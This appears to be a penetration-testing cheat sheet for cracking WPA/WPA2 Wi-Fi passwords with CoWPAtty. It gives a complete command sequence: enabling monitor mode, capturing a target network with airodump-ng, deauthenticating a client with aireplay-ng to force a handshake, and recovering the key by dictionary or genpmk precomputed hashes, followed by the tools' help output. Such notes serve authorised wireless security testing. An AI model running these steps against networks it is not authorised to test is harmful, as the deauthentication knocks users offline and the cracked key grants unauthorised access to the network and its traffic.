

# CoWPAtty Attack (WPA/WPA2)

Use CoWPAtty to crack the password in either dictionary mode (plaintext) or hash mode. The latter is quicker.

## Commands

* Run [reconnaissance](../reconnaissance.md) first

```bash
# Install cowpatty/genpmk
sudo apt-get install cowpatty

# Start monitor mode
sudo airmon-ng start wlan0

# Start a screen session with a horizonal split screen

# Start monitor mode but with filters and output saved to PCAP.
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap wlan0mon

# Do one deauth injection attack while still monitoring
sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT wlan0mon

# Wait for the four-way handshake to appear in airodump-ng window.
# Stop airodump-ng when it appears
qq

# Check if four-way handshake is indeed valid
cowpatty -r $PCAP -c

# Crack the password in dictionary mode (slowest)
cowpatty -r $PCAP -f $WORDLIST -s $SSID

# Crack the password in hash mode (fastest)

## Generate a RAINBOW table using a wordlist and filter by SSID
genpmk -f $WORDLIST -d $RAINBOW -s $SSID

## Crack the password with the RAINBOW table and filter by SSID
cowpatty -r $PCAP -d $RAINBOW -s $SSID
```
## References

* [cowpatty](https://www.willhackforsushi.com/?page_id=50)

```text
cowpatty -h
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Usage: cowpatty [options]

        -f      Dictionary file
        -d      Hash file (genpmk)
        -r      Packet capture file
        -s      Network SSID (enclose in quotes if SSID includes spaces)
        -c      Check for valid 4-way frames, does not crack
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit
```

```text
genpmk -h
genpmk 1.3 - WPA-PSK precomputation attack. <jwright@hasborg.com>
Usage: genpmk [options]

        -f      Dictionary file
        -d      Output hash file
        -s      Network SSID
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit

After precomputing the hash file, run cowpatty with the -d argument.
```

